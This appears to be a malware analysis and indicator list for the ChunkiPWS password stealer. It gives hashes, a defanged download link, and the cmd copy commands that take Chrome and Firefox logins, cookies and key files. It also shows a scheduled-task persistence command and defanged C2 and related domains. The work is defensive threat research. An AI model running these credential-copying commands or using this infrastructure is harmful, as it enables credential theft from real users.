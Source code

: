 # Observed malicious IOCs for Chunki Password Stealer aka (ChunkiPWS)

### Date of first occurrence

27-03-2022

### Description:

A victim watches a video and is lured into downloading a malicious installation package from mediafire.com.  When ChunkiPWS is executed, the password stealer collects credentials and gathers operating system and software information.  This information is then uploaded to a remote server using a POST request.  Persistence is set as a scheduled task which periodically runs AutoIT scripts.  ChunkiPWS was named after its enormous size of its installation package.

### Sample Analysis
https://app.any.run/tasks/a5d03b82-b444-4849-b9ac-6a68a4a507b1/

### Malicious Installation Package

Sample download link to ChunkiPWS

```
https[:]//www.mediafire[.]com/file/xqj110ce9lm2vyu/Open__The__File__Setup.zip/fileapplication/zipapplication/
```

```
Installation Package:

File Name: Open__The__File__Setup.zip
Sha256Hash: a7ce9cd6cd40ff21ede8736327a95eb8f0ad193a943dd091c9d6ec91cc02bef2 

Decompressed Archive:

File Name: Install__Latest__Download.zip
Sha256Hash: ae68059ea44da06c59ee4c59dd616614aa9f59fa5b461ef0acbb94967e5f1b56

File Name: 'Password Is  =   1122.txt'

Decompressed Executable:

File Name: File__Setup.exe
File Size: 671M
Sha256Hash: 88b1fb836125454ac4c3553b3414a5a67096a105f5fd573a2822b84ee553bca5
```

### Obstacles

The file size of the ChunkiPWS is around 670-700 mb, making analysis quite difficult to perform.  Most sandbox platform can upload a maximum of 50-100mb in size.  Also, downloading the samples through EDRs was near impossible at times.

### Observed activity of `File__Setup.exe`

When executed, a single folder is created in the victim's temp directory.  The name of the folder is four random numbers.  For Example:

```
Directory names:

C:\users\<profile>\appdata\local\temp\2300
C:\users\<profile>\appdata\local\temp\4492
C:\users\<profile>\appdata\local\temp\5753
C:\users\<profile>\appdata\local\temp\5777
C:\users\<profile>\appdata\local\temp\7090
C:\users\<profile>\appdata\local\temp\8727
```

When a folder is created, a folder structure is created which is intended to collect and organize the collected information.

```
Directory Name 
---- 

_Brave 
_Chrome 
_Edge 
_Files 
_Firefox 
_Opera 
_Wallet 
_Information.txt 
_Screen_Desktop.jpeg
```

### Data Collection:

The following commands were executed to collect credentials, OS and Software information.

```
_Chrome 

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Web Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_webdata.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Login Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_logins.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Network\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"
```

```
_Firefox

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\formhistory.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\formhistory.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\cookies.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\cookies.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\signons.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\signons.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\logins.json" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\logins.json"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key3.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key3.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key4.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key4.db"
```

```
_Files

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\Desktop\*.txt" "C:\Users\<profile>\AppData\Local\Temp\2300
```

```
_Information.txt

[OS, Local Date and Time, Username, CPU, RAM, GPU, Display Resolution]
```

```
_Screen_Desktop.jpeg

Screenshot of the desktop of the time of infection
```

### Persistence

A scheduled task is created to run AutoITv3 scripts. This portion of the analysis did not complete successfully, so I will need to do more research. 

```
schtasks /create /tn \Service\Diagnostic /tr """"C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.exe""" """C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.dat"""" /st 00:01 /du 
```

https://www.virustotal.com/gui/file/237d1bca6e056df5bb16a1216a434634109478f882d3b1d58344c801d184f95d/detection

### Exfiltration

Data is then zipped and uploaded to a C2 server via A POST request.

```
http[:]//sables23[.]top/index.php

data: Content-Disposition: form-data; name="file";filename="19696.zip"

19696.zip contains the exfiltrated data
```

### Related Domains Observed

```
5a5vmh.top
rnkj09.top
85kvie.top
vcev5c.top
hwh75t.top
rmgs2r.top
kzwor6.top
0m9rxw.top
63rx85.top
nn2ms2.top
n41n1a.top
pap44w.top
o08a6d.top
qor499.top
hezwde.top
bw9e2z.top
utebcd.top
wwa4tu.top
uboys5.top
cno42s.top
bcjl1h.top
e6in0v.top
bd7tlu.top
thyx30.top
o8hpwj.top
1bqroa.top
ibngww.top
dgjpgy.top
odmtu3.top
c6tjvl.top
va3ibn.top
sk8r54.top
zmn16h.top
kzhzuc.top
vbfyit.top
rxmbsm.top
2gbbja.top
wrd4fo.top
httsps.top
305iot.top
3t3hyf.top
n80yab.top
vgxcci.top
5m2n7x.top
dmvute.top
ean5e7.top
kml2o2.top
859rkn.top
tsrwj3.top
laugk2.top
p3tt2t.top
4bx196.top
yl1wg6.top
kt70uk.top
gs2ka7.top
0cgaez.top
bvbg1l.top
p7k7t4.top
ac7zvz.top
lxvmhm.top
5p76tw.top
308an1.top
x9ap4h.top
glg1i0.top
ucrw57.top
r21wmw.top
06j7o0.top
```
